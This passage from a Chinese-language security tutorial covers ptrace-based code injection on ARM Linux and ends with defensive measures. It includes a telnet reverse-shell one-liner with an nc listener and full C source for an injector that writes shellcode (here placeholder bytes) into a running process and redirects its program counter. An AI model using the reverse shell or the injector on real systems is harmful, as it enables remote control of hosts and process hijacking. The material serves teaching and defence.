

### 5.2 gdb

交叉编译一个 `armv7l` 下可用的 gdb

<https://ftp.gnu.org/gnu/gdb/>

相关的使用指令

```
info proc mappings
x/20gx 0x6d000
info registers
```

### 5.3 telnet 反弹 shell

监听端

```
nc -lvp 12345

```

使用 telnet 反弹 shell

```
mknod a p; telnet 192.168.184.129 12345 0<a | /bin/sh 1>a &

```



### 5.4 测试注入效果

编写一个 `victim` 程序，这是需要进行注入的目标，运行后会进行死循环，一直运行，不会退出

```
// arm-linux-gnueabihf-gcc -static victim.c -o victim -I/usr/arm-linux-gnueabihf/include
#include <stdio.h>
#include <unistd.h>

int main() {
    while (1) {
        printf("running\n");
        sleep(1);  // 每隔 1 秒输出一次
    }
    return 0;
}

```

编译注入工具 `inject`



源码如下，前面对 ptrace 分析得很透彻，有前面的基础，再看看下面代码及相关注释就能够理解

```
// arm-linux-gnueabihf-gcc -static inject.c -o inject -I/usr/arm-linux-gnueabihf/include

#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/user.h>
#include <asm/ptrace.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Gets the free memory address of the target process
long freespaceaddr(pid_t pid)
{
    FILE *fp;
    char filename[30];
    char line[256];
    long addr = 0;

    sprintf(filename, "/proc/%d/maps", pid);
    fp = fopen(filename, "r");
    if (fp == NULL)
    {
        printf("fopen error");
        exit(1);
    }

    while (fgets(line, sizeof(line), fp) != NULL)
    {
        if (strstr(line, "rw-p") != NULL)
        { // Found the read-write segment
            sscanf(line, "%lx-%*lx", &addr);
            break;
        }
    }
    fclose(fp);
    return addr;
}

// Reads data from the target process
void getdata(pid_t pid, long addr, void *data, int len)
{
    long *ptr = (long *)data;
    for (int i = 0; i < len; i += sizeof(long))
    {
        *ptr = ptrace(PTRACE_PEEKDATA, pid, addr + i, NULL);
        ptr++;
    }
}

// Writes data to the target process
void putdata(pid_t pid, long addr, void *data, int len)
{
    long *ptr = (long *)data;
    for (int i = 0; i < len; i += sizeof(long))
    {
        ptrace(PTRACE_POKEDATA, pid, addr + i, *ptr);
        ptr++;
    }
}

int main(int argc, char *argv[])
{
    if (argc != 2)
    {
        printf("Usage: %s <pid to be traced>\n", argv[0]);
        exit(1);
    }

    printf("Injection attack ready!\n");
    pid_t traced_process = atoi(argv[1]);
    struct pt_regs regs, oldregs;
    long addr;

    // Shellcode
    char shellcode[] =
        "\x61\x61\x61\x61\x61\x61\x61\x61"
        "\x61\x61\x61\x61\x61\x61\x61\x61"
        "\x61\x61\x61\x61\x61\x61\x61\x00"
        "\x61\x61\x61\x61\x61\x61\x61\x61";
    int len = sizeof(shellcode); // shellcode_length

    // Attach to the target process
    if (ptrace(PTRACE_ATTACH, traced_process, NULL, NULL) == -1)
    {
        printf("PTRACE_ATTACH error");
        exit(1);
    }
    wait(NULL);

    // Gets the current register status
    if (ptrace(PTRACE_GETREGS, traced_process, NULL, &regs) == -1)
    {
        perror("PTRACE_GETREGS failed");
        exit(1);
    }
    printf("Successfully retrieved current register state.\n");

    // Save register status
    memcpy(&oldregs, &regs, sizeof(regs));
    printf("Saved current register state.\n");

    // Find free address
    addr = freespaceaddr(traced_process);
    if (addr == 0)
    {
        fprintf(stderr, "Failed to find a writable memory region.\n");
        exit(1);
    }
    printf("Injecting code at: 0x%lx\n", addr);

    // Back up the original data of the target process
    char backup[len];
    getdata(traced_process, addr, backup, len);
    printf("Successfully backed up %d bytes of original data.\n", len);

    // Inject shellcode
    putdata(traced_process, addr, shellcode, len);
    printf("Injected shellcode into memory.\n"); // *

    // Hijack the target process PC register to point to shellcode
    regs.ARM_pc = addr;
    printf("ARM_pc: 0x%lx\n", regs.ARM_pc);
    if (ptrace(PTRACE_SETREGS, traced_process, NULL, &regs) == -1)
    {
        printf("PTRACE_SETREGS failed");
        exit(1);
    }
    printf("Modified PC register to shellcode address.\n");

    if (ptrace(PTRACE_DETACH, traced_process, NULL, NULL) == -1)
    {
        printf("PTRACE_DETACH failed");
        exit(1);
    }
    printf("Detached from the process.\n");
    printf("Restored original state and detached.\n");
    return 0;
}

```

### 5.5 ptrace 注入 shellcode 并劫持程序流

先运行 `victim`，然后在反弹 shell 的窗口里使用 `ps-ef` 查看 `victim` 的 pid，然后运行 `./inject pid`，效果如下，执行注入后直接触发程序 `Segmentation fault`

看源码可知，shellcode 用了一连串的 a，由此现象可知 shellcode 注入成功，且成功劫持程序流执行 shellcode

也可以放一个交叉编译好的静态的 gdb 上去看看，注入的 shellcode 正确写入目标进程内存，即已被覆盖为了一串的 a



## 六、防御策略分析

所以 `ptrace` 注入在 ARM 架构下是可行的，并具有较高的灵活性。然而，其若被滥用可能带来严重安全威胁，可以通过限制权限和增强防护措施，有效降低此类攻击的风险

### 6.1 限制 ptrace 权限

* 启用 `ptrace_scope`（仅允许父进程调试子进程）
* 避免运行具有调试权限的应用程序

### 6.2 强化防护机制

* 部署 `SELinux/AppArmor` 等访问控制策略
* 使用 `ASLR` 增加代码注入难度

### 6.3 行为检测

* 监控异常系统调用行为，例如频繁调用 `ptrace` 或 `PTRACE_POKETEXT`
